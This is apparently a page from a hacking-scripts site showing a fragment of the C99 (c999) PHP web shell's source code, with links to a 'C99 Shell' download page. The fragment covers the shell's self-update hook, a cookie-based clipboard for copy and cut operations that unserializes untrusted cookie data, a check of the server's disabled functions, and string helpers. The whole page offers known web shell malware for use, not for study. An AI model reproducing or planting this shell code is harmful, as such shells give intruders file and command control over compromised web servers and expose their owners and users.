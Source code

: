 if ($selfwrite or $updatenow) {@ob_clean(); c999sh_getupdate($selfwrite,1); exit;}
$sess_data = unserialize($_COOKIE["$sess_cookie"]);
if (!is_array($sess_data)) {$sess_data = array();}
if (!is_array($sess_data["copy"])) {$sess_data["copy"] = array();}
if (!is_array($sess_data["cut"])) {$sess_data["cut"] = array();}
$disablefunc = @ini_get("disable_functions");
if (!empty($disablefunc))
{
 $disablefunc = str_replace(" ","",$disablefunc);
 $disablefunc = explode(",",$disablefunc);
}
if (!function_exists("c999_buff_prepare"))
{
function c999_buff_prepare()
{
 global $sess_data;
 global $act;
 foreach($sess_data["copy"] as $k=&gt;$v) {$sess_data["copy"][$k] = str_replace("\\",DIRECTORY_SEPARATOR,realpath($v));}
 foreach($sess_data["cut"] as $k=&gt;$v) {$sess_data["cut"][$k] = str_replace("\\",DIRECTORY_SEPARATOR,realpath($v));}
 $sess_data["copy"] = array_unique($sess_data["copy"]);
 $sess_data["cut"] = array_unique($sess_data["cut"]);
 sort($sess_data["copy"]);
 sort($sess_data["cut"]);
 if ($act != "copy") {foreach($sess_data["cut"] as $k=&gt;$v) {if ($sess_data["copy"][$k] == $v) {unset($sess_data["copy"][$k]); }}}
 else {foreach($sess_data["copy"] as $k=&gt;$v) {if ($sess_data["cut"][$k] == $v) {unset($sess_data["cut"][$k]);}}}
}
}
c999_buff_prepare();
if (!function_exists("c999_sess_put"))
{
function c999_sess_put($data)
{
 global $sess_cookie;
 global $sess_data;
 c999_buff_prepare();
 $sess_data = $data;
 $data = serialize($data);
 setcookie($sess_cookie,$data);
}
}
foreach (array("sort","sql_sort") as $v)
{
 if (!empty($_GET[$v])) {$$v = $_GET[$v];}
 if (!empty($_POST[$v])) {$$v = $_POST[$v];}
}
if ($sort_save)
{
 if (!empty($sort)) {setcookie("sort",$sort);}
 if (!empty($sql_sort)) {setcookie("sql_sort",$sql_sort);}
}
if (!function_exists("str2mini"))
{
function str2mini($content,$len)
{
 if (strlen($content) &gt; $len)
 {
  $len = ceil($len/2) - 2;
  return substr($content, 0,$len)."...".substr($content,-$len);
 }
 else {return $content;}

 [1]: http://hackingscripts.com/c99-shell/ "C99 Shell"
 [2]: http://hackingscripts.com/wp/wp-content/uploads/2014/01/c999.png